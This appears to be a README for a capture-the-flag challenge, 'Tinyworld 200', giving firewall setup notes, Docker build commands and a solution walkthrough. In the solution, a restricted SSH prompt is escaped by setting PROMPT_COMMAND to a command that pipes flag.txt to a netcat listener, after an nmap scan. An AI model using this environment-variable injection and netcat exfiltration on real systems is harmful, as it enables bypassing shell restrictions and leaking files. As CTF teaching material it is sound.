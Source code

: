 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username challenge@addr -p 2222 where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

As a note, make sure to setup the openstack firewall to ONLY allow 2000 - 2100 and 2222 in from competitors, this is in order to make the nmap scan that the users have to perform more obvious as to which ports are available for them to use.

## Solution

First off the competitors will need to find an open port that they can open netcat on

    nmap -Pn -d -d 192.168.108.167

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker build -t tinyworld-200 .

    docker run -d -p 2222:22 -p 2000-2100:2000-2100 --read-only --tmpfs /tmp tinyworld-200